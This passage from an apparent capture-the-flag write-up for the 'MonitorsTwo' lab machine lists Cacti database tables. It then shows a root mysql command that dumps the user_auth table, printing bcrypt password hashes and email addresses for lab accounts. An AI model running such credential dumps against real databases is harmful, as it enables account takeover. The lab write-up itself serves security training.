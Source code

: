 ```
settings_tree
settings_user
settings_user_group
sites
snmp_query
snmp_query_graph
snmp_query_graph_rrd
snmp_query_graph_rrd_sv
snmp_query_graph_sv
snmpagent_cache
snmpagent_cache_notifications
snmpagent_cache_textual_conventions
snmpagent_managers
snmpagent_managers_notifications
snmpagent_mibs
snmpagent_notifications_log
user_auth
user_auth_cache
user_auth_group
user_auth_group_members
user_auth_group_perms
user_auth_group_realm
user_auth_perms
user_auth_realm
user_domains
user_domains_ldap
user_log
vdef
vdef_items
version
```

There is a lot of tables in cacti, but the "user_*" tables are interesting :

```shell
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
```

```
id	username	password	realm	full_name	email_address	must_change_password	password_change	show_tree	show_list	show_preview	graph_settings	login_opts	policy_graphs	policy_trees	policy_hosts	policy_graph_templates	enabled	lastchange	lastlogin	password_history	locked	failed_attempts	lastfail	reset_perms
1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	0	Jamie Thompson	admin@monitorstwo.htb		on	on	on	on	on	2	1	11	1	on	-1	-1	-1		0	0	663348655
3	guest	43e9a4ab75570f5b	0	Guest Account		on	on	on	on	on	3	1	1	1	1	1		-1	-1	-1	00	0
4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C	0	Marcus Brune	marcus@monitorstwo.htb			on	on	on	on	1	1	11	1	on	-1	-1		on	0	0	2135691668
```

There are 3 users :

- amin
- guest
- marcus
